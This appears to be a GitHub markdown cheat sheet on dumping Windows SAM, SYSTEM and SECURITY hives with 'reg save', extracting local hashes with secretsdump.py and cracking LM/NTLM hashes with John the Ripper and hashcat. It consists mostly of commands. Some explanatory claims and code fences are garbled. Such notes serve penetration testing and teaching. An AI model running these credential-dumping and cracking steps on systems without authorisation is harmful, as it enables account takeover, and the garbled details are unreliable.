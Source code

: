 ## 1. Dump the Windows files which contain the local password hashes (Windows registry files: SAM, SECURITY and SYSTEM):

Dump les fichiers de registre à l'aide de "REG SAVE" (nécessite les droits admin):
```
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system 
reg save HKLM\SECURITY C:\temp\security
```



## 2. Extract the windows local password hashes:

```
secretsdump.py -sam sam -security security -system system LOCAL
```



## 3. Hash formats :

Two types of hashes are present in SAM file
	- LM (old storage method of Windows)
	- NTLM


Examples of hash

	[username]::[LM]:[NTLM]:::

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```

- If the LM hash has the value "aad3b435b51404eeaad3b435b51404ee" so the password is not storage in the LM hash
- If the NTLM hash has the value "31d6cfe0d16ae931b73c59d7e0c089c0" so the password is empty (potentially due to a desactivated account)
- If the NTLM hash has the value "b1b1d2ebf0bb5707135a9032caea49d3" so we have the same password



## 4. John the ripper - Crack the password hashes :

#### General commands and rules

	john [type of attack] --format=[hash of the format] 

	--rules:Single
	--rules:Wordlist
	--rules:Extra
	--rules:Jumbo (all the above)
	--rules:KoreLogic
	--rules:All (all the above)


#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
````

2. Verify login=password
```
john --single --format=[LM|NTLM] hashes.txt --fork=4
```

3. Standards dictionnary attacks with[out] rules
```
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4 --rules=KoreLogic
```

Be careful, the rules=all parameter is very long. With a lot of hashes, this operation will working during several days.

4. Show result:

The cracked hashes are located in the corresponding .pot file

	john --format=LM hashes.txt --show
	john --format=NTLM hashes.txt --show



## 5. Hashcat - Crack the password hashes :

#### General commands and rules
```			
hashcat -m <typeOfHash> -a <typeOfAttack> -o <outputFile> <hashesFile.txt> <dictionaryFile.txt>
```		

Advances attacks (option -a)
```
0 - Straight : It is the default attack which is also the dictionary attack
1 - Combination : This attack permits to combine several dictionaries. Example: With a wordlist of fruits and a second with color, we obtain a combined wordlist with combinations like : BananaRed, BananaGreen, AppleRed, AppleGreen
3 - Brute-forcing : Traditional Brute-forcing attack which will try each possible combination. Compatible with Masks-Attacks and Rules-Attacks
4 - Permutation : Attack which change the order of the letter for each word of the dictionary. Example with the password 123: 132, 213, 231, 312, 321
```

#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
```

2. Verify lo```gin=password

➤ For LM hash :
Generate the list of the login
```
cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt
```
Try login=password 
```
hashcat -m 3000 hash.txt [LOGIN].txt
```

➤ For NTLM hash :
Generate the list of the login
```
cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt
```
Try login=password 
```
hashcat -m 1000 hash.txt [LOGIN].txt
```

3. Dictionnary attack
➤ For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt --force

➤ For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt --force

4. Dictionnary attack with rules

To see the existing rules attacks
		ls -l /usr/share/hashcat/rules/

➤ For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt  -r [Rules_path] --force

➤ For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -r [Rules_path] --force


5. Show cracked/not cracked passwords
➤ For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt -show
			
➤ For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -show
